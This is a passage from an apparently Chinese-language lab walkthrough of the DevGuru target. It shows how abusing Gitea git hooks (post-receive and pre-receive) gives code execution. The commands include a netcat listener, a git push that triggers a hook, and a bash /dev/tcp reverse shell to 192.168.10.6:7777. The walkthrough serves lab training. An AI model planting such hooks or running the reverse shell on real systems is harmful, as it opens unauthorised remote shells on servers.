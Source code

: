 ```shell
nc -lvnp 8888
```

然后在`kali`另起一个终端，执行`git`命令

```shell
touch README.md
git init
git add README.md
git commit -m "Initial commit"
git remote add origin http://192.168.10.12:8585/frank/devguru-website.gi
git push -u origin master
```

其实这里简单来说，就是当文件有改动，然后把文件上传到`git`时，就会触发构造的`post receive`

![](./pic/50.jpg)



基于上面的方式，还有另一种，也是利用`githook`，不过利用的是`pre receive`，在这里添加脚本命令

```shell
#!/bin/bash
bash -c 'exec bash -i &>/dev/tcp/192.168.10.6/7777 <&1'
```

![](./pic/51.jpg)

然后编辑上面的命令后，更新即可
